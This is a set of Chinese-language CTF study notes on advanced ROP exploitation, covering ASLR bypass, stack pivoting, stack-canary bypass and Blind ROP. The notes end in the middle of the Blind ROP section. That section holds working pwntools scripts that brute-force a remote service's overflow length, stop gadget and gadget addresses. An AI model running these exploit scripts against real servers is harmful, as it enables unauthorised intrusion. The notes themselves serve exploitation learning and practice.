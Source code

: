 # 花式ROP









## ROP滑梯绕过ASLR

ROP滑梯可以绕过`ASLR`

![image-20241123131806602](../_media/image-20241123131806602.png)





## 栈迁移



LEAVE

```
在函数返回时，恢复父函数栈帧的指令
```

就是将ebp和esp拉到相同的位置

- MOV esp ebp
- pop ebp
- 此时ebp在若是恶意地址，那就实现栈迁移





本质：rbp/rsp 迁移到其他地方的一种手段

使用指令：leave，pop rbpv

实际做法就是在缓冲区写危险函数，然后最后控制范围函数到`leave ret`



栈迁移传统思路：

- 找机会去泄露栈空间的地址然后把栈迁移到我们可以控制的栈空间，或者迁移到堆空间，大致思路就是覆盖rbp为我们想要迁移到的地方，然后在溢出的位置上填上leave ret



- rbp位置上填写bss段可写地址，然后在返回地址填上主函数自己的read，这样就可以把栈迁移到bss段了

特点，溢出0x8，第一时间要想到栈迁移



要实现栈迁移，需要至少执行两次写入操作

一次用于向可读写内存区（比如.bss段）写入rop链

第二次用于触发栈溢出，将esp寄存器指向上一步写入的rop链所在的内存区

同时还需要执行两次leave ret操作

一次用于触发栈溢出修改后的函数ret地址

一次用于将ebp esp寄存器指向rop链的内存区完成迁移动作
















## Canary绕过

低版本libc，直接利用库函数缺陷溢出，将指针替换为需要泄露出的字符串地址，主动触发检测，打印`flag`



子进程爆破Canary值，有fork的话



两种思路：

- 将Canaries的值泄露出来，然后栈溢出的时候精准覆盖
- 同时篡改TLS和栈上的Canaries，绕过检查

 







## 盲打

就是没有给出文件给你，只给了远程服务器给你

必要条件：

1. 目标程序存在一个栈溢出漏洞，并且我们知道怎样去触发它
2. 目标进程在崩溃后会立即重启，并且重启后进程被加载的地址不变，这样即使目标机器开启了 ASLR 也没有影响。



- 枚举，判断栈溢出长度
- 爆破，按照字节爆破进行，32位情况下，至多爆破1024次，64位至多2048次，找到canary的值



盲ROP

Blind ROP

- 使用 libc_csu_init 结尾的一段 gadgets 来实现，同时可以使用 plt 来获取write地址
- 在write的参数里面，rdx是用来限制输出长度的，一般不会为0
- 可以通过 strcmp 来实现，在执行 strcmp 的时候，rdx会被设置为字符串的长度，所以只要找到 strcmp 就可以实现控制rdx



找gadget

- 执行代码的时候陷入循环，就是出题人向你透露这一段gadget
- 构造payload识别正在执行的指令的效果



步骤：

- 找出栈溢出长度
- 找到一个让程序不崩溃的地址
- 找出BROP_gadgets
- 打印出put@plt的地址
- 然后多次put，把程序dump下来
- ida分析
- 再`libcsearch` 去 `ret2libc`



做题步骤：



崩溃意味着找到了覆盖返回地址

```python
def get_buffer_size():
    for i in range(100):
        payload = "A"
        payload += "A"*i
        buf_size = len(payload) - 1
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.send(payload)
            p.recv()
            p.close()
            log.info("bad: %d" % buf_size)
        except EOFError as e:
            p.close()
            log.info("buffer size: %d" % buf_size)
            return buf_size
```



找到覆盖返回地址的长度之后，就要寻找通用gadget了，因为只知道缓冲区溢出长度也是不行的，因为覆盖的地址大概率不是而合法的，需要找到一个能够使程序正常返回的地址，称为stop gadget

```python
def get_stop_addr(buf_size):
    addr = 0x400000
    while True:
        sleep(0.1)
        addr += 1
        payload = "A"*buf_size
        payload += p64(addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
            p.recvline()
            p.close()
            log.info("stop address: 0x%x" % addr)
            return addr
        except EOFError as e:
            p.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1
```



找到一个就可以了，一般是从`0x400000` 开始找，找到了之后程序还是一样崩溃，但是那些正常返回的地址会通过stop gadget进入被挂起的状态，在这个基础上寻找其他可利用的gadget。一般开始搜索的地址从上面获取的stop gadget地址开始搜索就可以了。

```python
def get_gadgets_addr(buf_size, stop_addr):
    addr = stop_addr
    while True:
        sleep(0.1)
        addr += 1
        payload = "A"*buf_size
        payload += p64(addr)
        payload += p64(1) + p64(2) + p64(3) + p64(4) + p64(5) + p64(6)
        payload += p64(stop_addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
            p.recvline()
            p.close()
            log.info("find address: 0x%x" % addr)
            try: # check
                payload = "A"*buf_size
                payload += p64(addr)
                payload += p64(1) + p64(2) + p64(3) + p64(4) + p64(5) + p64(6)
                p = remote('127.0.0.1', 10001)
                p.recvline()
                p.sendline(payload)
                p.recvline()
                p.close()
                log.info("bad address: 0x%x" % addr)
            except:
                p.close()
                log.info("gadget address: 0x%x" % addr)
                return addr
        except EOFError as e:
            p.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1
```



得到通用gadget，就可以得到`pop rdi;ret` 的地址了，就是 `gadget address + 9`

然后就是使用puts函数来dump内存，仅仅需要一个参数

